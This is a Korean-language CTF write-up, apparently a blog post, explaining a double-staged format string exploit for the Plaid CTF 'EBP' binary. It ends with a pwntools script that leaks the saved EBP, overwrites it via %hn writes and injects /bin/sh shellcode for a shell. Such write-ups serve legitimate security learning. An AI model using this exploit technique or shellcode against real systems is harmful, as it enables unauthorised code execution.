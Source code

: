 ```yaml
---
layout: post
title: ! "Plaid CTF EBP Writeup"
excerpt_separator: <!--more-->
comments : true
tags:
  - Writeup
  - CTF
  - Plaid CTF
  - t4ngo
---
```


ctf 문제를 많이 풀어보지는 못했지만 plaid ctf에서 괜찮은 문제가 많은 것 같아 찾아보던 중 EBP라는 문제가 재밌어보여서 포스팅하게 되었습니다!

사실 이번 문제는 FSB(Format String Bug)에 관한 것인데 3년전 문제이기도 하고 요즘은 FSB가 많이 나오지 않는 추세로 알고 있어서 '이걸 아직도 해?' 라고 하시는 분들도 계실 수 있지만 그래도 과거가 있기에 현재가 있는 법! 저와 같이 EBP 문제를 풀며 FSB를 다시 한 번 복습해봅시다!

먼저 Binary를 실행하면 아래와 같이 그냥 입력을 받고 그대로 출력해주는 동작이 끝입니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_01.PNG)

그럼, 좀 더 자세히 알아보기 위해 IDA로 까봅시다!

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_02.PNG)

main에서는 buf에 1024byte만큼 입력을 받고 echo() 함수를 호출합니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_03.PNG)

ehco() 함수는 make_response() 함수를 호출하고 puts()로 response를 출력합니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_04.PNG)

make_response() 함수를 보면 snprintf()를 이용하여 buf의 값을 response에 복사하여 주는 것을 알 수 있습니다.

위 코드를 보고 make_response() 함수에 FSB가 존재한다는 것을 알아채셨겠죠? 하지만, 일반적인 FSB와는 달리 buf가 스택 영역이 아니기 때문에 스택을 마음대로 조작하기에는 어려운 부분이 있죠!

이를 해결하기 위해 Double Staged FSB라는 기법을 이용합니다. (위 내용은 <http://kblab.tistory.com/271>에 잘 정리가 되어 있어서 참고하시면 좋을 것 같습니다!)

다음으로 snprintf()가 호출되기 직전의 stack 상황을 살펴봅니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_05.PNG)

ebp를 확인해보면 0xffffd5b8 위치하여 0xffffd5d8을 가리키고 있습니다. 여기서 당연하게도 0xffffd5d8은 이전 함수 프레임의 ebp를 뜻하겠죠? >_0

그런 다음, 0xffffd5d8 위치를 살펴보면 0xffffd5f8 들어있는 것을 알 수 있습니다. 즉, 이전 함수의 SFP는 0xffffd5f8이라는 사실을 알 수 있습니다. 그리고 이전 함수의 ret는 0xffffd5dc에 위치한 0x08048557이 되겠죠?

여기서 현재 함수의 EBP를 이용하여 이전 함수의 SFP 값을 0xffffd5dc로 바꾸어주면 됩니다.

정리하자면..

1. 현재 함수의 ebp를 이용하여 이전 함수의 SFP 변경
2. 변경된 SFP는 ret를 가리키고 있으므로 컨트롤 가능

그렇다면 이제 FSB를 이용하여 EBP 값이 얼마나 떨어져있는지 확인해 봅시다!

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_06.PNG)

4번째에 0xffffd5f8이 찍히긴 하지만 우리가 확인한 0xffffd5d8이 아닌 0xffffd5f8이 들어있습니다! 하지만, ret는 제대로 나오는 군요! 아마, 실제 메모리에 올라가면서 살짝 뒤로 밀린 것 같네요! O_O

그렇다면 다음과 같은 시나리오를 짤 수 있습니다!

1. %x%x%x%x으로 이전 함수의 SFP 확인
2. 알아낸 ebp+4를 통해 ret가 저장된 주소 계산
3. ret가 저장된 주소로 이전 함수의 SFP OverWrite (shellcode를 넣을 수 있는 곳 확보)
4. shellcode를 저장
5. shellcode가 저장된 곳으로 ret OverWrite

위와 같은 시나리오를 바탕으로 exploit 코드를 짜면 아래와 같습니다!

```
  1 from pwn import *
  2 import struct
  3 
  4 p = process("./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf")
  5 
  6 p.send('%4$x\n')
  7 sleep(1)
  8 leak_addr = p.recv(1024)
  9 leak_addr = int(leak_addr,16)+4 & 0xffff
 10 
 11 payload = '%'+`leak_addr`+'c%4$hn\n'
 12 p.send(payload)
 13 
 14 p.recv(1024)shellcode = '\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
 16 payload = shellcode+'%'+`(0xa080-len(shellcode))`+'c%12$hn\n'
 17 p.send(payload)
 18 p.recv(1024)
 19 
 20 p.interactive()

```
![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_07.PNG)

exploit 성공!!! 수고하셨습니당~~
